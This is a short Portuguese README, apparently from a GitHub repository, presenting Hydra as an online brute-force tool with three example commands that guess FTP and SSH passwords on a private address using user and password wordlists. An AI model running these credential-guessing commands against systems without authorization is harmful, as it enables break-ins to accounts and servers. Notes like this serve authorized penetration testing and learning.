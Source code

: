 # HYDRA

Ferramenta de brute force online.

Uso do hydra com usuário:
hydra -v -l user -P wordlist.txt 192.168.0.100 ftp
hydra -v -l root -P wordlist.txt 192.168.0.100 ssh

Uso do hydra com wordlist de usuário:
hydra -v -L users.txt -P wordlist.txt 192.168.0.100 21
